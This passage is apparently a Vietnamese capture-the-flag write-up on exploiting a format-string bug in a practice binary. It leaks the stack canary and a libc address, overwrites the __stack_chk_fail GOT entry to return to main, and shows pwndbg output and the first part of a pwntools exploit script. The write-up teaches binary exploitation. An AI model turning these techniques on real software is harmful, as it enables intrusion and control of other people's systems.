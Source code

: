 Chúng ta có thể leak giá trị `canary` tại index `11` và địa chỉ của `__libc_start_call_main+128` tại index `15`. Tuy nhiên, thay vì leak canary tại index 11, ta sẽ leak canary ở stack của hàm `main` (hàm cha gọi `go`). Giá trị canary của hàm `go` và hàm `main` giống nhau vì **canary là một giá trị toàn cục**, được khởi tạo một lần duy nhất khi chương trình bắt đầu thực thi. Tất cả các hàm trong cùng một luồng thực thi (thread) đều sử dụng chung giá trị canary để bảo vệ stack của chúng. Khi hàm `main` gọi `go`, stack frame của `go` được đặt ngay phía trên stack frame của `main`, và giá trị canary từ `main` được sao chép sang stack của `go`. Điều này đảm bảo cả hai stack frame đều được bảo vệ bởi cùng một giá trị canary, giúp phát hiện các cuộc tấn công ghi đè bộ nhớ.

Việc leak canary từ stack của `main` cho phép ta ghi đè một phần giá trị canary của `go`, dẫn đến việc ép chương trình gọi `__stack_chk_fail@plt`. Tận dụng lỗ hổng format string, ta sẽ ghi đè địa chỉ của `__stack_chk_fail` thành địa chỉ của hàm `main`, từ đó đưa chương trình quay lại `main` để tiếp tục khai thác và mở rộng khả năng kiểm soát flow của chương trình.

```nasm
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/alter/pwn/Practice/og/og:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] __stack_chk_fail@GLIBC_2.4 -> 0x401030 ◂— endbr64
[0x404020] setbuf@GLIBC_2.2.5 -> 0x7ffff7e0efe0 (setbuf) ◂— endbr64
[0x404028] printf@GLIBC_2.2.5 -> 0x7ffff7de76f0 (printf) ◂— endbr64
[0x404030] fgets@GLIBC_2.2.5 -> 0x401060 ◂— endbr64
pwndbg> p&main
$2 = (<text variable, no debug info> *) 0x401255 <main>
pwndbg> plt
Section .plt 0x401020-0x401070:
No symbols found in section .plt
```

Ta có thể thấy vì `__stack_chk_fail` chưa được gọi nên địa chỉ trong `GOT` của nó vẫn còn nằm trong range của `PLT` . Và so sánh với địa chỉ của `main` ta thấy do `PIE` tắt nên địa chỉ của `main` cũng chỉ dao động trong khoảng `3` bytes nên ta có thể cắt 2 bytes cuối của `main` và ghi nó vô `__stack_chk_fail@plt`  bằng `format string`

- **Part 1 of exploit**

    ```python
    # [1]: Leak & return
    ret_addr = (exe.sym.main) & 0xffff

    pl = f'%{ret_addr}c%10$hn'.encode()
    pl += f'%15$p%33$p'.encode()
    pl = pl.ljust(0x20, b'\0')
    pl += p64(exe.got.__stack_chk_fail)
    sla(b'name: ', pl)

    ru(b'0x')
    leak = int(ru(b'0x',drop=True), 16)
    canary = int(ru(b'A', drop=True), 16)
    libc.address = leak - 0x29d90
    info('Canary: ' + hex(canary))
    info('Libc leak: ' + hex(leak))
    info('Libc address: ' + hex(libc.address))
    ```
